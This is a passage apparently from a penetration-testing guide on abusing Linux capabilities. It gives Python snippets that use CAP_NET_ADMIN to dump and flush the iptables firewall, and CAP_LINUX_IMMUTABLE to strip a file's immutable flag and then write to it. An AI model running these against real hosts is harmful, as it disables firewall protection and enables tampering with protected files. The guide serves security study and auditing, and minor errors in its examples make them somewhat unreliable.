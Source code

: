 [**CAP\_NET\_ADMIN**](https://man7.org/linux/man-pages/man7/capabilities.7.html) allows the capability holder to **modify the exposed network namespaces' firewall, routing tables, socket permissions**, network interface configuration and other related settings on exposed network interfaces. This also provides the ability to **enable promiscuous mode** for the attached network interfaces and potentially sniff across namespaces.

**Example with binary**

Lets suppose that the **python binary** has these capabilities.

```python
#Dump iptables filter table rules
import iptc
import pprint
json=iptc.easy.dump_table('filter',ipv6=False)
pprint.pprint(json)

#Flush iptables filter table
import iptc
iptc.easy.flush_table('filter')
```

## CAP\_LINUX\_IMMUTABLE

**This means that it's possible modify inode attributes.** You cannot escalate privileges directly with this capability.

**Example with binary**

If you find that a file is immutable and python has this capability, you can **remove the immutable attribute and make the file modifiable:**

```python
#Check that the file is imutable
lsattr file.sh 
----i---------e--- backup.sh
```

```python
#Pyhton code to allow modifications to the file
import fcntl
import os
import struct

FS_APPEND_FL = 0x00000020
FS_IOC_SETFLAGS = 0x40086602

fd = os.open('/path/to/file.sh', os.O_RDONLY)
f = struct.pack('i', FS_APPEND_FL)
fcntl.ioctl(fd, FS_IOC_SETFLAGS, f)

f=open("/path/to/file.sh",'a+')
f.write('New content for the file\n')
```

